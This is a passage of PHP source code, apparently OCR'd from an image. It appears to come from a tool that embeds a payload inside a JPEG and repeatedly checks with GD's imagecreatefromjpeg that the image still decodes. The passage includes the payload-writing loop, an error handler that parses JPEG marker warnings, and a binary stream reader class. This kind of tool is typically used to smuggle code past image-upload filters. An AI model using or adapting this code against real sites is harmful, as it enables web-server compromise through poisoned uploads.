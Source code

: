 ```
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) .
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }
```